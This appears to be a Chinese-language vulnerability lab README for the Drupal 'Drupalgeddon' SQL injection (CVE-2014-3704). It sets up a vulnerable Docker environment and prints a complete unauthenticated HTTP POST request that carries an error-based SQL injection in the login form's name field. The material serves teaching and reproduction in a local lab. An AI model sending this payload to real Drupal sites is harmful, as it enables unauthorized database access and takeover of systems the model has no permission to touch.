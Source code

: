 # Drupal < 7.32 “Drupalgeddon” SQL注入漏洞（CVE-2014-3704）

Drupal 是一款用量庞大的CMS，其7.0~7.31版本中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。

## 漏洞环境

执行如下命令启动Drupal 7.31环境：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Drupal的安装页面，使用默认配置安装即可。

其中，Mysql数据库名填写`drupal`，数据库用户名、密码为`root`，地址为`mysql`：

![](1.png)

安装完成后，访问首页：

![](2.png)

## 漏洞复现

该漏洞无需认证，发送如下数据包即可执行恶意SQL语句：

```
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```

可见，信息已被爆出：

![](3.png)

